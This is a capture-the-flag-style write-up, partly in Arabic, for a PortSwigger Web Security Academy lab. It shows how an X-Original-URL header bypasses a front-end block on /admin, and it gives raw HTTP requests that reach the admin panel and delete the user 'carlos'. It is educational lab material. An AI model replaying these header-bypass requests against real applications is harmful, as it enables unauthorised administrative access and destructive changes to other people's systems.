 ## 🎯  [URL-based access control can be circumvented](https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented)

### 📝 الوصف
يوجد لوحة تحكم المدير على مسار `/admin` ولكن تم حظر الوصول إليه من خلال نظام front-end. مع ذلك، التطبيق يدعم header خاص اسمه `X-Original-URL` يمكنه تجاوز هذا الحظر.

### 🎯 الهدف
الوصول إلى لوحة التحكم وحذف المستخدم `carlos`

---

### 🔍 الاكتشاف والتحليل

### ❌ المحاولة الأولية:
1. ذهبت مباشرة إلى `/admin` → **حظر 404**
2. جربت `/admin/` → **نفس النتيجة**

### 💡 الملاحظة المهمة:
- النظام يستخدم framework يدعم `X-Original-URL` header
- هذا الheader يستخدم لتجاوز مسار الطلب الأصلي

---

### 🛠️ خطوات الحل التفصيلية
#### Step 1: Using Burp Suite
![[photo/Screenshot From 2025-10-17 12-52-42.png]]
```http
GET / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
X-Original-URL: /admin
```

<mark style="background: #BBFABBA6;">2 نروح علي Repeater  و نضيف  x-orginal-URL: /admin </mark>
![[photo/Screenshot From 2025-10-17 13-02-42.png]]
#### Step 2: Access Admin Panel
1. Send request with <mark style="background: #FF5582A6;">X-Original-URL</mark> header:
	```http 
GET / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
X-Original-URL: /admin
```
	- Response shows admin panel interface
	- Contains option to delete users

#### Step 3: Delete Carlos User

![[photo/Screenshot From 2025-10-17 13-39-40.png]]
1. Send delete request using header bypass:
	```http
GET /?username=carlos HTTP/2

Host: 0ad700bf03a36103821bf166008900a3.web-security-academy.net
Cookie: session=mGA7P7tE0gJi6oLUNJDJs7VseOO5CLx5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad700bf03a36103821bf166008900a3.web-security-academy.net/

X-Original-Url: /admin/delete

Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```
---

